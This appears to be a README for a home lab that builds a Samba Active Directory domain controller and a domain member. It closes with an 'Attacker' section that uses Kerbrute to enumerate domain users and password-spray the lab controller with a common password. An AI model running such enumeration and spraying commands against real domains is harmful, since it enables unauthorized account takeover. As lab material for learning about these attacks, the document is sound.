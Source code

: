 # Samba

## Domain Controller

1. Set up the hostname:
	```bash
	hostnamectl set-hostname dc1
	```

2. Add the following line in the `/etc/hosts` file: 
		`192.168.122.10 dc1.polaris.org dc1`

3. Change to a static IP address in `/etc/netplan/50-cloud-init.yaml`:  
    ```
    addresses: [192.168.122.10/24]
    gateway4: 192.168.122.1
    nameservers:
    	addresses: [192.168.122.10, 8.8.8.8]
     ```
4. Save the changes:
    ```bash
    sudo netplan apply
    ```

5. Follow the installation from the Samba documentation:
     ```bash
    sudo -s
    wget https://download.samba.org/pub/samba/stable/samba-4.18.5.tar.gz
    tar xf samba-4.18.5.tar.gz
	cd samba-4.18.5/bootstrap/generated-dists/ubuntu1804
	./bootstrap.sh
	cd ../../..
	./configure
	make
	sudo make install
	/usr/local/samba/bin/samba-tool domain provision --use-rfc2307 --interactive
	```
	Add the lines to the `etc/resolv.conf` file:  
	
        search polaris.org
        nameserver 192.168.122.10
	  
	```bash
	systemctl disable --now systemd-resolved.service
	cp /usr/local/samba/private/krb5.conf /etc/krb5.conf
	# Start samba:
 	/usr/local/samba/sbin/samba
	```

6a. Add the lines to the `etc/resolv.conf`:
	```search polaris.org
	   nameserver 192.168.122.10```

6b. systemctl disable --now systemd-resolved.service

7. Start samba: `/usr/local/samba/sbin/samba`

8. Added aditional users to the domain:
   ```bash
	/usr/local/samba/bin/samba-tool user create Alice Alice1234
	/usr/local/samba/bin/samba-tool user create Bob Apolo1969
   ```

## Testing configuration

### Verifying the File Server
1.  `/usr/local/samba/bin/smbclient -L localhost -N`
2. `/usr/local/samba/bin/smbclient //localhost/netlogon -UAdministrator -c 'ls'`

### Verifying DNS

1. `host -t SRV _ldap._tcp.polaris.org.`
2. `host -t SRV _kerberos._udp.polaris.org.`
3. `host -t A dc1.polaris.org.`

### Verifying Kerberos

1. `kinit administrator`
2. `klist`

## Domain Member

1. Set the DNS server IP and AD DNS domain in the `/etc/resolv.conf`:

		nameserver 192.168.122.10
		search polaris.org
3. To configure Kerberos on the domain member, set the following in the `/etc/krb5.conf` file:

        [libdefaults]
            		default_realm = POLARIS.ORG
            		dns_lookup_realm = false
            		dns_lookup_kdc = true

4. Follow the installation from the Samba documentation:
     ```bash
	sudo -s
	wget https://download.samba.org/pub/samba/stable/samba-4.18.5.tar.gz
    tar xf samba-4.18.5.tar.gz
	cd samba-4.18.5/bootstrap/generated-dists/ubuntu1804
	./bootstrap.sh
	cd ../../..
	./configure
	make
	sudo make install
	 ```
5. Configuring the `autorid` Back End:

		[global]
		       security = ADS
		       workgroup = POLARIS
		       realm = POLARIS.ORG

		       log file = /var/log/samba/%m.log
		       log level = 1

		       template shell = /bin/bash
			   template homedir = /home/%U

		       # Default ID mapping configuration using the autorid
		       # idmap backend. This will work out of the box for simple setups
		       # as well as complex setups with trusted domains.
		       # NOTE: You cannot and must not use 'winbind use default domain = yes'
		       #       with the autorid idmap backend. This means that your users
		       #       will need to login using the format 'DOMAIN\username'.
		       #       If you want your users to login just using 'username' then
		       #       you cannot use the 'autorid' idmap backend.
		       idmap config * : backend = autorid
		       idmap config * : range = 10000-24999999

6. Reload the Samba configuration:

        /usr/local/samba/bin/smbcontrol all reload-config

7. Map the domain accounts to a local account to execute file operations on the domain member's file system as a different user than the account that requested the operation on the client:

    * Add the following parameter to the `[global]` section of your smb.conf file:
    
    		username map = /usr/local/samba/etc/user.map
    * Create the `/usr/local/samba/etc/user.map` file with the following content:
    
    		!root = POLARIS\Administrator

8. To join the host to an Active Directory (AD), enter:

		/usr/local/samba/bin/net ads join -U administrator

		OR

		/usr/local/samba/bin/samba-tool domain join samdom.example.com MEMBER -U administrator

9. Start the `smbd`, `nmbd` and `winbindd`  services to have a fully functioning Unix domain member:

    **[Note]:** If you do not require Network Browsing, you do not need to start the `nmbd` service on a Unix domain member.

   ```
   /usr/local/samba/sbin/smbd
   /usr/local/samba/sbin/winbindd
   /usr/local/samba/sbin/nmbd
   ```
        
## Testing configuration

### Verifying DNS resolution

1. `nslookup dc1.polaris.org`
2. `host dc1.polaris.org`


### Resolving SRV Records
1.   
	    $ nslookup  
	    > set type=SRV  
	    > _ldap._tcp.polaris.org
    
2. `host -t SRV _ldap._tcp.polaris.org`


### Verifying the Winbindd Connectivity

1. `/usr/local/samba/bin/wbinfo --ping-dc`

## Attacker

### Requesites  installation

1. Install Kerbrute:

		wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64

2. Rename the the binary downloaded:

		mv kerbrute_linux_amd64 kerbrute

3. Give executable permissions to kerbrute:

		chmod +x kerbrute	


### User Enumeration
1. Enumerate the users in the Active Directory Domain Controller using a users list

        ./kerbrute userenum -d polaris.org users.txt --dc 192.168.122.10

### Password Spraying
1. Perform an horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. 

        ./kerbrute passwordspray -d polaris.org valid_users.txt --dc 192.168.122.10 Passw0rd
